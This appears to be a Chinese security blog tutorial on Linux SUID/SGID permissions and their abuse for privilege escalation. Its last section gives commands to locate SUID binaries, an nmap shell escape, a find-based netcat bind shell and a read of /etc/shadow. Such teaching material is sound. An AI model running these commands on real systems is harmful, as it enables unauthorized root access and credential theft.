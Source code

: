```yaml
---
title: Linux SUID/SGID介绍及利用
date: 2020-06-12 17:24:25
id: 20200612172425
tags: 
	- 提权
	- Linux
categories: 网络安全
---
```


# 0x00 Linux文件属性

通过`ls -l`我们可以查看各个文件的访问权限。

![](https://superj.oss-cn-beijing.aliyuncs.com/20200612173855.png)

我们可以观察上方的这几个例子。

刚开始的第一位表示的是该文件的类型，有p、d、l、s、c、b和-。

| 符号 | 含义             |
| ---- | ---------------- |
| p    | 表示命名管道文件 |
| d    | 表示目录         |
| l    | 表示符号链接文件 |
| -    | 表示普通文件     |
| s    | 表示socket文件   |
| c    | 表示字符设备文件 |
| b    | 表示块设备文件   |

之后的每三位分别表示文件所有者的权限、同组用户的权限、其他用户的权限。

| 符号 | 含义 |
| ---- | ---- |
| w    | 写   |
| r    | 读   |
| x    | 执行 |

之后的数字表示硬链接的个数，然后就是文件所有者，所在组，再然后是文件的大小，和最新的更改时间，最后是文件名。

```bash
drwxr-xr-x  11 optimus  staff   352  2 18 12:01 tools
```

如上，这是一个目录，所有者optimus的权限为读写执行权限（这里的执行权限为搜索位，表示可以读写该目录的文件），所在组为staff，同组用户权限为读执行，其他用户的权限为读权限，有11个硬链接，大小为352，最新更新时间为2月18日12：01，文件名是tools。

# 0x01 SUID与SGID

如果我们设置了SUID或SGID，那么所有者权限或同组权限的可执行位置就变为了s（区分大小写）。

| 属性       | 含义                                               |
| ---------- | -------------------------------------------------- |
| -rwsr-xr-x | 表示SUID和所有者权限中可执行位被设置               |
| -rwSr--r-- | 表示SUID被设置，但所有者权限中可执行位没有被设置   |
| -rwxr-sr-x | 表示SGID和同组用户权限中可执行位被设置             |
| -rw-r-Sr-- | 表示SGID被设置，但同组用户权限中可执行位没有被设置 |

一个文件的权限，是由12位二进制位来表示的，第11位为SUID位，第10位为SGID位，第9位为sticky位，第8-0位对应于上面的三组rwx位。

```bash
-rwxr-xr-x  11 optimus  staff   352  2 18 12:01 myfile
```

以上面为例，任何用户都可以执行这个程序。UNIX的内核是根据什么来确定一个进程对资源的访问权限的呢？是这个进程的运行用户的（有效）ID，包括user id和group id。用户可以用id命令来查到自己的或其他用户的user id和group id。

除了一般的user id 和group id外，还有两个称之为effective 的id，就是有效id，上面的四个id表示为：uid，gid，euid，egid。内核主要是根据euid和egid来确定进程对资源的访问权限。

一个进程如果没有SUID或SGID位，则euid=uid egid=gid，分别是运行这个程序的用户的uid和gid。例如jeffrey用户的uid和gid分别为204和202，optimus用户的uid和gid为200，201，jeffrey运行myfile程序形成的进程的euid=uid=204，egid=gid=202，内核根据这些值来判断进程对资源访问的限制，其实就是jeffrey用户对资源访问的权限，和optimus没关系。

如果一个程序设置了SUID，则euid和egid变成被运行的程序的所有者的uid和gid，例如jeffrey用户运行myfile，euid=200，egid=201，uid=204，gid=202，则这个进程具有它的属主optimus的资源访问权限。

SUID的作用就是这样：让本来没有相应权限的用户运行这个程序时，可以访问他没有权限访问的资源。passwd就是一个很鲜明的例子。

# 0x02 利用

可利用的命令有nmap、vim、find、bash、more、less、nano、cp。

#### 查找开启SUID的命令

```bash
find / -user root -perm -4000 -print 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \;
```

#### nmap利用

nmap版本小于5.21时，可打开交互模式。

```bash
nmap —interactive
nmap>!sh
```

也可以通过Metasploit模块对Nmap的二进制文件进行权限提升。

```bash
exploit/unix/local/setuid_nmap
```

在这个脚本中有一段注释。

```
Note that modern interpreters will refuse to run scripts on the command line when EUID != UID, so the cmd/unix/reverse_{perl,ruby} payloads will most likely not work.
```

这段注释的翻译为

```
注意，当EUID != UID时，现代解释器将拒绝在命令行上运行脚本，因此cmd/unix/reverse_{perl,ruby}负载很可能无法工作。
```

#### find利用

```bash
find existFile -exec whoami \;
find existFile -exec nc -lvp 4444 -e /bin/sh \;
find existFile -exec cat /etc/shadow \;
```

其中第二个命令在实践时发现打开的命令行任然是普通用户的权限。

![](https://superj.oss-cn-beijing.aliyuncs.com/20200614174739.png)

可以看到这时的uid和euid的值都为1000。因此这种方式现在可能会失效。但是其他方式还是可以的。

![](https://superj.oss-cn-beijing.aliyuncs.com/20200614174907.png)

